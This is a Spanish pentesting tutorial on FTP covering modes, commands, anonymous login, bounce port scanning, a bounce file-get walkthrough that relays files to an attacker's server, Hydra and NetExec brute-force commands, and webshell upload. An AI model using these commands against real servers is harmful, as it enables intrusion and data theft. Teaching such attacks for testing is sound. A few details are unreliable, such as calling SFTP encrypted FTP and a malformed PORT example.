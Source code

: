 ```yaml
---
lang: es
title: "Introducción a FTP"
summary: "El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accedidos por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol)."
date: 2024-11-14
tags:
    - Ciberseguridad
    - Pentesting
    - FTP
---
```


El protocolo FTP (File Transfer Protocol) es un protocolo usado para la transferencia de archivos entre ordenadores en red, este protocolo presenta arquitectura cliente-servidor usándose un servidor para servir archivos que pueden ser accedidos por N clientes. Por defecto, la información se transmite en texto plano, aunque existe una versión cifrada del mismo llamada SFTP (Secure File Transfer Protocol).

<!-- more -->

Si bien existen implementaciones con interfaz gráfica, en este artículo haremos uso de la herramienta de línea de comandos de FTP, la cual nos da bastante flexibilidad a la hora de trabajar con el protocolo. En artículos posteriores exploraremos las principales implementaciones de cliente y servidor, aunque en este nos centraremos en explicar los conceptos básicos del protocolo, como trabajar con él y como aprovechar algunas malas configuraciones.


## Teoría

### Canales de comunicación

Para el funcionamiento de FTP se requieren de dos canales de comunicación, uno para el envío de comandos y otro para los datos.

### Modos de conexión

#### Activo

Es el modo de conexión predeterminado para las conexiones FTP, en él ocurren dos eventos:

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se intenta abrir una conexión desde el puerto de datos del servidor (20 por defecto) al puerto P+1 del cliente.

!!! nota

    El modo activo puede presentar problemas con los firewalls del cliente debido a que intenta crear una conexión directa a un puerto del lado cliente, lo cual puede ser bloqueado por ciertos firewalls.


#### Pasivo

Este modo surge como solución al problema de los firewalls del cliente, aquí se modifica el flujo de trabajo de modo que tanto la conexión de datos como la conexión del cliente se inician desde el cliente, podemos desglosarlo en dos eventos.

- Se establece un canal de comandos en la conexión con el servidor entre el puerto de comandos del servidor (21 por defecto) y un puerto superior a 1023 en el lado cliente (nos referiremos a este como P).
- Una vez establecida la conexión de datos se abre una conexión de datos desde el puerto P+1 del cliente a un puerto del canal de datos del servidor, este proceso se repite para cada transferencia de archivos ocupando un puerto distinto del servidor en cada conexión (esto puede ser configurado en la mayoría de los software del lado servidor) .

!!! nota

    El modo pasivo requiere de la apertura de un rango de puertos en el firewall, esto puede generar algunos problemas de seguridad si esta apertura de puertos no se configura de manera correcta.


## Comandos FTP

```bash
CWD  -> Cambia el directorio actual por el especificado
DELE -> Elimina el archivo especificado
EPRT -> Establecer un socket para la conexión de datos
LIST -> Lista los archivos en el directorio actual
PASV -> Cambia el modo a pasivo
PWD  -> Muestra el directorio actual 
RETR -> Descarga el archivo especificado
```

## Anonymous login

Existe una configuración de FTP que permite el uso de un login para compartir ficheros para cualquier usuario que lo requiera, en caso de que esta configuración este habilitada un usuario podría usar anonymous como nombre de inicio de sesión y cualquier contraseña acceder al servidor como un usuario con bajos privilegios, aunque en ciertos casos esto puede llevar a comprometer el sistema entero.

## FTP Bounce port scan

Es posible abusar de los comandos PORT y ERPT para realizar un escaneo de puertos abiertos mediante un servidor FTP.

### Nmap

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
```

### Hand-made

Una vez conectado podemos realizar el escaneo de puertos mediante los comandos PORT y ERPT seguidos de un comando LIST .

Aquí tenemos un ejemplo para escanear el puerto 9091 del host 10.10.10.14

```bash
PORT 10,10,10,14,0,9091
EPRT |2|10.10.10.14|9091|

LIST
```

Si la respuesta es un 150 el puerto está abierto, en caso de recibir un 415 el puerto está cerrado.

## FTP Bounce file get

Este ataque permite a un atacante descargar ficheros de un servidor FTP no accesible por el atacante, pero al que sí puede llegar un servidor FTP accesible por el atacante

![Net Diagram](../../../assets/posts/2024/11/14/net_diagram.png)

Este ataque tiene los siguientes prerequisitos:

- Credenciales válidas para External FTP.
- Credenciales válidas para Internal FTP.
- Acceso de escritura para External FTP.
- Permisos de ejecución del comando PORT tanto en External como en Internal.

Primero que nada desplegaremos un servidor FTP en la máquina del atacante, este servidor tiene que soportar el modo pasivo.

Una vez desplegado abriremos una conexión pasiva con el comando PASV y le diremos que la guarde con STOR output.ext .

Ahora crearemos un archivo con los comandos que queremos lanzar contra el segundo servidor, un ejemplo seria el siguiente:

```bash
user ftp   # Usuario para el servidor internal
pass password # Password para el servidor internal
cwd /DIRECTORY
type i
port F,F,F,F,X,X  #Nuestro puerto pasivo
retr file.ext
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
```

Ahora lo subimos con PUT y desde el servidor externo ejecutamos los siguientes comandos:

```bash
put payload
quote "port C,C,C,C,0,21" # IP del servidor interno
quote "retr payload"
```

Tras esto tendremos el archivo file.ext en nuestro servidor como output.ext

## Ataque por fuerza bruta

Muchos de los servidores FTP no presentan protección contra ataques por fuerza bruta. Teniendo un usuario o una lista de ellos podemos llevar a cabo un ataque de fuerza bruta con diferentes credenciales obtenidas de diversas fuentes, si bien existen varias herramientas para este fin, las dos más comunes son NetExec e Hydra. 

### NetExec

```bash
nxc ftp IP -u userfile -p passwordfile
```

### Hydra

```bash
hydra -L userfile -P passwordfile ftp://IP
```

## Backup sorpresa

Esto no es un ataque per se, pero es bastante útil, ya que nos permite descargar todos los archivos accesibles del servidor mediante un solo comando.

```bash
wget -r ftp://IP/dir/* --ftp-user=username --ftp-password=password
```

## FTP file upload to RCE

En determinadas circunstancias, el permiso para subir ficheros al servidor junto a otras malas configuraciones puede llevar a la obtención de ejecución remota de comandos en el servidor.

El caso más común es la posibilidad de subir ficheros que van a ser luego servidos por un servidor web, donde podríamos subir una webshell interpretable por el servidor para lograr obtener ejecución de comandos.

## Sniffing credentials

Dado que FTP funciona por defecto en texto plano, es posible para un atacante en la misma red usar un sniffer y capturar tanto las credenciales como la conversación FTP.


En el próximo artículo de esta serie sobre FTP hablaremos sobre fallos comunes de implementación y algunas vulnerabilidades conocidas de algunas implementaciones del protocolo.

Stay safe. Stay smart. Stay secure.

---